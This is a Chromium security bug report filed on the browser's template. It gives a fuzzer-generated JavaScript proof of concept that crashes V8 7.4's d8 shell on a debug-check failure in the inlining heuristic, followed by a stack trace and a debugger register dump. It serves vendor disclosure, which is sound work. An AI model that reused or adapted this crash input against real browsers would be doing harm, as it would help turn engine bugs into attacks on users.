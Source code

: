 <b>This template is ONLY for reporting security bugs. If you are reporting a</b>
<b>Download Protection Bypass bug, please use the "Security - Download</b>
<b>Protection" template. For all other reports, please use a different</b>
<b>template.</b>

<b>Please READ THIS FAQ before filing a bug: https://chromium.googlesource.com</b>
<b>/chromium/src/+/master/docs/security/faq.md</b>

<b>Please see the following link for instructions on filing security bugs:</b>
<b>https://www.chromium.org/Home/chromium-security/reporting-security-bugs</b>

<b>Reports may be eligible for reward payments under the Chrome VRP:</b>
<b>http://g.co/ChromeBugRewards</b>

<b>NOTE: Security bugs are normally made public once a fix has been widely</b>
<b>deployed.</b>

<b>-------------------------</b>

<b>VULNERABILITY DETAILS</b>
<b>Please provide a brief explanation of the security issue.</b>

<b>VERSION</b>
Chrome Version: 74.0.3729.169 + [stable]
Operating System: ubuntu 16.04

<b>REPRODUCTION CASE</b>
<b>Please include a demonstration of the security bug, such as an attached</b>
<b>HTML or binary file that reproduces the bug when loaded in Chrome. PLEASE</b>
<b>make the file as small as possible and remove any content not required to</b>
<b>demonstrate the bug, or any personal or confidential information.</b>

<b>Please attach files directly, not in zip or other archive formats, and if</b>
<b>you've created a demonstration site please also attach the files needed to</b>
<b>reproduce the demonstration locally.</b>


build v8 7.4.288.28 with fuzzil li, and run with this poc.js, d8 will crash with dcheck failure & fatal error
======
poc.js

function main() {
const v0 = {};
function v2(v3,v4) {
    let v7 = 9;
    function v10(v11,v12,v13) {
        'use strict'
    }
    function v16(v17,v18,v19) {
        'use strict'
        let v22 = v10;
        do {
            let v24 = parseFloat;
            const v25 = v22();
            v22 = v24;
            const v33 = [13.37,13.37,13.37,13.37];
            const v35 = "object" > "boolean";
            const v37 = Symbol.iterator;
            Symbol[v37] = "object";
            Boolean.rightContext = 3040063587;
            const v38 = [v33,BigUint64Array,1337,13.37];
            const v39 = {setUint32:"object",multiline:v33,setUint32:3993242923,global:v38,entries:13.37,localeCompare:"object"};
            const v40 = {dotAll:"object",getInt8:BigUint64Array,entries:BigUint64Array,toLocaleLowerCase:3993242923,toUpperCase:3993242923,parseFloat:v38,reverse:v39};
            const v41 = v40[-4096];
            function v42(v43,v44,v45) {
                'use strict'
                const v46 = v33 && v41;
                const v48 = [-1000000000000.0,-1000000000000.0,-1000000000000.0,-1000000000000.0];
                function v49(v50,v51,v52) {
                    'use strict'
                    let v54 = v50;
                }
                let v57 = 0;
            }
            const v59 = 0 >= Boolean;
            let v65 = 0;
            let v68 = 1337;
            const v69 = 10000 - v68;
            let v74 = 0;
        } while (SharedArrayBuffer < 255);
        let v77 = 0;
        do {
            const v78 = v77 + 1;
            v77 = v78;
        } while (v77 < 65536);
    }
    const v79 = v16(-1000000000000.0,Boolean,v0,942884782);
    const v80 = v16(-2705792804,v10,arguments,arguments,v16);
}
const v81 = v2(v2);
}
main();

debug info:
#
# Fatal error in ../../src/compiler/js-inlining-heuristic.cc, line 324
# Debug check failed: IrOpcode::kPhi == callee->opcode() (Phi vs. HeapConstant).
#
#
#
#FailureMessage Object: 0x7fffffffbd50
==== C stack trace ===============================

    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x48ad02) [0x5555559ded02]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x488677) [0x5555559dc677]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x47f32e) [0x5555559d332e]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x47eec5) [0x5555559d2ec5]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x9763b5) [0x555555eca3b5]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x976690) [0x555555eca690]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x973cc9) [0x555555ec7cc9]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x974574) [0x555555ec8574]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x7b9af5) [0x555555d0daf5]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x6db313) [0x555555c2f313]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x6cddd8) [0x555555c21dd8]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x6cb720) [0x555555c1f720]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x6cb0bb) [0x555555c1f0bb]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x634c19) [0x555555b88c19]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x63c757) [0x555555b90757]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x63dfd6) [0x555555b91fd6]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x13ae0dd) [0x5555569020dd]
    /home/test/Documents/fuzz/test/out/fuzzbuild20190512_v8_7.4.288.28/d8(+0x1caa989) [0x5555571fe989]

Thread 1 "d8" received signal SIGILL, Illegal instruction.

[----------------------------------registers-----------------------------------]
RAX: 0x7f0 
RBX: 0x5555559dc650 (<_ZN2v88platform12_GLOBAL__N_115PrintStackTraceEv>:push   rbp)
RCX: 0x3f01 
RDX: 0x2 
RSI: 0x7ffff7ecb010 --> 0x83841 
RDI: 0x555557478c14 --> 0x3f8300000000 
RBP: 0x7fffffffbd40 --> 0x7fffffffc050 --> 0x7fffffffc060 --> 0x7fffffffc200 --> 0x7fffffffc2c0 --> 0x7fffffffc3f0 (--> ...)
RSP: 0x7fffffffbd40 --> 0x7fffffffc050 --> 0x7fffffffc060 --> 0x7fffffffc200 --> 0x7fffffffc2c0 --> 0x7fffffffc3f0 (--> ...)
RIP: 0x5555559d964e (<_ZN2v84base2OS5AbortEv+30>:   ud2)
R8 : 0x7ffff728b770 --> 0x0 
R9 : 0x7ffff7fcc740 (0x00007ffff7fcc740)
R10: 0x0 
R11: 0x0 
R12: 0x555555694200 ("Debug check failed: %s.")
R13: 0x7fffffffc010 --> 0x3000000020 (' ')
R14: 0x144 
R15: 0x55555567a923 ("../../src/compiler/js-inlining-heuristic.cc")
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)

[-------------------------------------code-------------------------------------]
   0x5555559d9640 <_ZN2v84base2OS5AbortEv+16>:  
    cmp    BYTE PTR [rip+0x260f349],0x0        # 0x555557fe8990 <_ZN2v84base12_GLOBAL__N_112g_hard_abortE>
   0x5555559d9647 <_ZN2v84base2OS5AbortEv+23>:  
    jne    0x5555559d964e <_ZN2v84base2OS5AbortEv+30>
   0x5555559d9649 <_ZN2v84base2OS5AbortEv+25>:  
    call   0x55555745b220 <abort@plt>
=> 0x5555559d964e <_ZN2v84base2OS5AbortEv+30>:  ud2    
   0x5555559d9650 <_ZN2v84base2OS10DebugBreakEv>:   push   rbp
   0x5555559d9651 <_ZN2v84base2OS10DebugBreakEv+1>: mov    rbp,rsp
   0x5555559d9654 <_ZN2v84base2OS10DebugBreakEv+4>: 
    lea    rdi,[rip+0x1a9f5bd]        # 0x555557478c18
   0x5555559d965b <_ZN2v84base2OS10DebugBreakEv+11>:    
    call   0x5555559381a0 <__sanitizer_cov_trace_pc_guard>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffbd40 --> 0x7fffffffc050 --> 0x7fffffffc060 --> 0x7fffffffc200 --> 0x7fffffffc2c0 --> 0x7fffffffc3f0 (--> ...)
0008| 0x7fffffffbd48 --> 0x5555559d3342 (int3)
0016| 0x7fffffffbd50 --> 0xdecade10 
0024| 0x7fffffffbd58 ("Debug check failed: IrOpcode::kPhi == callee->opcode() (Phi vs. HeapConstant).")
0032| 0x7fffffffbd60 ("eck failed: IrOpcode::kPhi == callee->opcode() (Phi vs. HeapConstant).")
0040| 0x7fffffffbd68 ("ed: IrOpcode::kPhi == callee->opcode() (Phi vs. HeapConstant).")
0048| 0x7fffffffbd70 ("code::kPhi == callee->opcode() (Phi vs. HeapConstant).")
0056| 0x7fffffffbd78 ("hi == callee->opcode() (Phi vs. HeapConstant).")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGILL
v8::base::OS::Abort() ()
    at ../../src/base/platform/platform-posix.cc:400
400 ../../src/base/platform/platform-posix.cc: No such file or directory.


<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
<b>Type of crash: [tab, browser, etc.]</b>
<b>Crash State: [see link above: stack trace *with symbols*, registers,</b>
<b>exception record]</b>
<b>Client ID (if relevant): [see link above]</b>

<b>CREDIT INFORMATION</b>
<b>Externally reported security bugs may appear in Chrome release notes. If</b>
<b>this bug is included, how would you like to be credited?</b>
<b>Reporter credit: [goes here]</b>
